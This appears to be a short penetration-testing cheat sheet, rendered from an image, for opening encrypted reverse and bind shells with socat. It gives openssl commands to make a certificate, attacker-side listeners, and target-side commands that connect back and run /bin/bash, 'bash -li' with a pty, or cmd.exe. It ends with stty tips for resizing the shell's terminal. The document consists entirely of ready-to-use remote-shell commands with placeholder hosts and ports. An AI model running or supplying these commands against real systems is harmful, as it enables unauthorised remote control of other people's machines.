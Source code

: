 <h3>GENERATE CERT</h3>
<h5>create cert: (attacker)</h5>
``openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt``
<h5>merge 2 certs: (attacker)</h5>
`cat shell.key shell.crt > shell.pem`


<h5>setup listener (attacker)</h5>
`socat OPENSSL-LISTEN:<lport>,cert=shell.pem,verify=0 -`
OR
`socat OPENSSL-LISTEN:<lport>,cert=shell.pem,verify=0 FILE:`tty`,raw,echo=0`


<h3>CONNECT (reverse)</h3>
<h5>connect back: (target)</h5>
`socat OPENSSL:<lhost:lport>,verify=0 EXEC:/bin/bash`
OR
<h5>target to linux:</h5>
`socat OPENSSL:<lhost:lport>,verify=0 EXEC:”bash -li”,pty,stderr,sigint,setsid,sane_`
<h5>connect bind (target)</h5>
``socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes``
<h5>attacker</h5>
`socat OPENSSL:<rhost:rport>,verify=0 -`


<h3>resize terminal tty</h3>
`stty -a show stty
![file:///tmp/.9CYK32/1.png](file:///tmp/.9CYK32/1.png)`

stty rows <number> sets rows
stty cols <number> sets columns